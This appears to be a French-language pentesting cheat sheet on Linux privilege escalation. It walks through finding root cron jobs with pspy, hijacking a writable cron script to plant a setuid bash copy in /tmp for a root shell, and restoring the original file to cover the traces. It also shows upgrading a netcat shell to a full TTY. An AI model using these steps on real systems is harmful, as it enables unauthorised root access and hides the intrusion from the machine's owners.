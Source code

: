 
- Si on a trouvé aucune cron task avec linPEAS, on peut toujours essayé de chercher les cron tasks user qui sont stocké dans /va/spool/cron/crontabs mais innaccessible aux users.
    - On va d'abord check si cron tourne en fond, on aura peut-être une chance de l'exploit :
        - `ps -efw | grep -i "cron"` // Si tu vois une ligne avec cron lancé, y'a une chance.
    - Faut maintenant trouver des hidden cron jobs avec PsPy, un script pour lister tous les processus, voir les commandes que les autres users executent et plus encore je crois.
        - Il faut que la cible ait installé PsPy (qu'on peut faire nous même) puis tu fais `chmod 755 ./pspy64`
        - `./pspy64 `// Attend un peu pour voir si y'a des tâches qui s'executent toute les minutes par exemple. Par exemple tu pourrais voir une ligne /usr/sbin/cron -f suivie d'une ligne avec la commande. C'est encore mieux si c'est avec le UID=0 (en root)
    - Ensuite, suivant la commande executé, tu peux essayer de l'exploiter.
    - Imaginons qu'on ait la commande /bin/bash -c /opt/scripts/test-connect.sh, on va donc check si on a les permissions dans le dossier et sur le fichier
        - On va donc essayer de remplacer ce fichier avec le notre : on va le bouger vers un dossier où on pourra le modifier. /dev/shm par exemple :
            - `mv /opt/srcipts/test-connect.sh /dev/shm` // si quand on fait ls -l /dev/shm, on voit qu'on devient le propriétaire du fichier, on pourrai donc directement pouvoir modifier le fichier dans /opt/scripts/ mais je trouve ça bizarre donc part du principe que ça marche pas. Bref du coup dans le fichier on pourrait mettre :
            - `echo '#!/bin/bash' > /opt/scripts/test-connect.sh`
            - `echo "" >> /opt/scripts/test-connect.sh`
            - `echo 'cp /bin/bash /tmp && chmod +s /tmp/bash' >> test-connect.sh`
            - C'est pour qu'on puisse lancer un shell avec le setuid à partir de /tmp.
        - Maintenant, on attend que le fichier bash dans /tmp ait le setuid. Quand tu l'as, t'as plus qu'à faire /tmp/bash -p
        - Pour effacer les traces, dans le shell root que t'as choppé tu peux faire mv /dev/shm/test-connect.sh /opt/scripts/ pour remettre le script de base dans le dossier /opt/scripts puis tu fais chown root:root /opt/scripts/test-connect.sh pour définir le propriétaire sur root. Maintenant, tout est redevenu comme avant et tu as un shell root.

# **Upgrade to full TTY**

Imagine que t'ai un shell pas interactif que t'as eu à travers ftp donc quand tu fais des commandes, t'as pas de réponse.

- Sur ta machine attaquante, tu lances nc : `nc -lnvp 443`
- Quand tu vas sur la cible et que tu fais ftp ip_attacker, c'est pas interactif.
- A la place, sur ta cible : `python3 -c 'import pty;pty.spawn("/bin/bash");' `// PTY c'est un module python pour faire spawn un processus shell séparé.
- Normalement, t'as un processus qui s'est lancé. Maintenant tu fais CTRL + Z pour revenir sur ta machine puis tu fais :
- `stty raw -echo`
- Toujours sur ta cible, tu fais "fg" ca devrais afficher "nc -lvpn 443" puis tu fais "export TERM=xterm" pour exporter le shell xterm pour avoir un full TTY
- Si tu retourne sur ta cible et que tu retente ftp ip_attacker, normalement tu devrais avoir un shell interactif (qui reçoit et envoie des outputs au programme)

# Wildcard injection
